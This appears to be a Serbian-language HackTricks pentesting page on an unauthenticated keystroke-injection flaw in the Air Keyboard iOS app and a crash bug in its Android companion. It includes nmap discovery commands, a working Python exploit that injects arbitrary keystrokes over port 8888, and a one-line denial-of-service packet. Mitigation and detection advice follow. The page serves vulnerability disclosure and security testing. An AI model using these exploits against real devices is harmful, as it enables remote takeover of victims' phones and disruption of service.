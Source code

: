 # Air Keyboard Remote Input Injection (Unauthenticated TCP Listener)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

iOS verzija komercijalne aplikacije "Air Keyboard" (App Store ID 6463187929) otvara **TCP servis u čistom tekstu na portu 8888** koji prihvata okvire pritisaka tastera **bez ikakve autentifikacije**. Svaki uređaj na istoj Wi-Fi mreži može se povezati na taj port i injektovati proizvoljni unos sa tastature u telefon žrtve, ostvarujući **potpuno preuzimanje daljinske interakcije**.

Prateća Android verzija sluša na **portu 55535**. Izvodi slabu AES-ECB razmenu ključeva, ali kreirani otpad uzrokuje **neobrađenu izuzetak u OpenSSL rutini dekripcije**, rušeći pozadinsku uslugu (**DoS**).

## 1. Otkriće usluge

Skenirajte lokalnu mrežu i potražite dva fiksna porta koja koriste aplikacije:
```bash
# iOS (input-injection)
nmap -p 8888 --open 192.168.1.0/24

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```
Na Android uređajima možete lokalno identifikovati odgovarajući paket:
```bash
adb shell netstat -tulpn | grep 55535     # no root required on emulator

# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                # map PID → package name
```
## 2. Format okvira (iOS)

Binarni fajl otkriva sledeću logiku parsiranja unutar `handleInputFrame()` rutine:
```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```
Deklarisana dužina uključuje `device_id` bajt **ali ne** i dvobajtni header. 

## 3. Eksploatacija PoC
```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard for iOS"""
import socket, sys

target_ip = sys.argv[1]                  # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"     # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                         # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
s.sendall(frame)
print("Injected", keystrokes)
```
Svaki štampajući ASCII (uključujući `\n`, `\r`, specijalne tastere, itd.) može biti poslat, efektivno dajući napadaču istu moć kao fizički unos korisnika: pokretanje aplikacija, slanje IM-ova, poseta phishing URL-ovima, itd.

## 4. Android Companion – Odbijanje usluge

Android port (55535) očekuje lozinku od 4 karaktera enkriptovanu sa **hard-kodiranim AES-128-ECB ključem** praćenom nasumičnim nonce-om. Greške u parsiranju se prenose na `AES_decrypt()` i nisu uhvaćene, što dovodi do prekida niti slušatelja. Jedan malformirani paket je stoga dovoljan da drži legitimne korisnike isključenim dok se proces ponovo ne pokrene.
```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```
## 5. Uzrok

1. **Nema provere porekla / integriteta** na dolaznim okvirima (iOS).
2. **Kryptografska zloupotreba** (stat ključ, ECB, nedostatak provere dužine) i **nedostatak obrade izuzetaka** (Android).

## 6. Mogućnosti ublažavanja i ideje za jačanje

* Nikada ne izlažite neautentifikovane usluge na mobilnom uređaju.
* Izvedite tajne po uređaju tokom onboardinga i proverite ih pre obrade unosa.
* Povežite slušalac na `127.0.0.1` i koristite međusobno autentifikovani, enkriptovani transport (npr., TLS, Noise) za daljinsko upravljanje.
* Otkrivajte neočekivane otvorene portove tokom mobilnih bezbednosnih pregleda (`netstat`, `lsof`, `frida-trace` na `socket()` itd.).
* Kao krajnji korisnik: deinstalirajte Air Keyboard ili ga koristite samo na pouzdanim, izolovanim Wi-Fi mrežama.

## Detekcija Cheat-Sheet (Pentesteri)
```bash
# Quick one-liner to locate vulnerable devices in a /24
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - | awk '/Ports/{print $2,$3,$4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do echo -n \"$p → "; cat /proc/$p/cmdline; done"
```
## Reference

- [Remote Input Injection Vulnerability in Air Keyboard iOS App Still Unpatched](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)
- [CXSecurity advisory WLB-2025060015](https://cxsecurity.com/issue/WLB-2025060015)

{{#include ../../banners/hacktricks-training.md}}
